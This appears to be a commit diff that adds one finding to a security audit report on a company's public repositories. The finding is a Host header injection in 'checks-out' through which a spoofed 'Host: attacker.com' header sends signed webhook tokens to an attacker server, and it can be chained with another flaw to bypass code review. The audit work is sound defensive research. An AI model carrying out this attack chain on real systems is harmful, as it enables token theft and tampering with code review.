

Before and after one commit to StealthyBugs/poc, a Markdown page: AUDIT_REPORT.md, 2 parts joined by grey strips. Shown at 95% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Add VULN-26: Host header injection in checks-out leaking webhook tokens
Attacker can spoof Host/X-Forwarded-For header when enabling a repo,
causing webhook registration to point to attacker-controlled server with
signed access token. Chains with VULN-09 for full code review bypass.

Total confirmed vulnerabilities: 26

https://claude.ai/code/session_018BPYyFK18UCNv78BGq1y3p

```diff
--- a/AUDIT_REPORT.md
+++ b/AUDIT_REPORT.md
@@ -8,9 +8,9 @@
 
 This report contains the results of a static-analysis security audit of 45 public repositories in the Capital One GitHub organization. Analysis focused exclusively on high and critical vulnerabilities reachable through HTTP requests and normal application interaction.
 
-**Total confirmed vulnerabilities: 25**
+**Total confirmed vulnerabilities: 26**
 - Critical: 3
-- High: 13
+- High: 14
 - Medium-High: 9
 
 Each finding below survived multiple rounds of false-positive review, including verification that the code is not dead/test/mock, that no upstream guards neutralize the issue, and that a realistic attack path exists.
@@ -534,6 +534,27 @@ value = value
 
 ---
 
+### VULN-26: Host Header Injection Leading to Webhook Token Theft
+- **Severity:** HIGH
+- **Repository:** checks-out
+- **Files:** `shared/httputil/httputil.go:50-67,72-74`, `web/github_create.go:274`, `api/repos.go:226-231`
+- **Functions:** `GetHost()`, `GetURL()`, `createRepoHook()`, `enableRepo()`
+- **Vulnerability Type:** Host Header Injection / SSRF (CWE-644)
+
+**Taint Flow:**
+1. Entry: `GetHost()` at `httputil.go:50` reads from multiple user-controlled headers: `r.Host`, `r.URL.Host`, `X-Forwarded-For`, `X-Host`, `XFF`, `X-Real-IP` — with no validation or allowlisting
+2. `GetURL()` at `httputil.go:72` constructs a URL: `GetScheme(r) + "://" + GetHost(r)`, where `GetScheme()` also trusts the `X-Forwarded-Proto` header
+3. In `enableRepo()` at `repos.go:226-231`, this attacker-controlled URL is used to construct a webhook callback: `link := fmt.Sprintf("%s/hook?access_token=%s", baseURL, sig)` where `sig` is a signed token
+4. This link is registered as a GitHub webhook via `remote.SetHook()`
+
+**Why protections fail:** `GetHost()` explicitly uses untrusted HTTP headers as host sources with zero validation. The `enableRepo` function blindly concatenates the host-derived URL with a secret access token. No allowlist restricts which hosts can be used.
+
+**Exploitation:** A repo admin sends `POST /api/repos/:owner/:repo` with `Host: attacker.com` (or `X-Forwarded-For: attacker.com`). The system registers a GitHub webhook pointing to `https://attacker.com/hook?access_token=<signed_token>`. GitHub then sends all repo events (including PR reviews, code pushes) to the attacker's server, along with the signed access token — which can be reused to forge webhook events via VULN-09.
+
+**Not a false positive because:** The `GetHost` function's fallback chain through untrusted headers is explicit in the source code. The signed token is concatenated directly into the URL registered with GitHub. This chains with VULN-09 (missing signature verification) for full compromise of the code review system.
+
+---
+
 ## DISCARDED FINDINGS (False Positives After Review)
 
 The following were investigated and determined to NOT be exploitable:
```
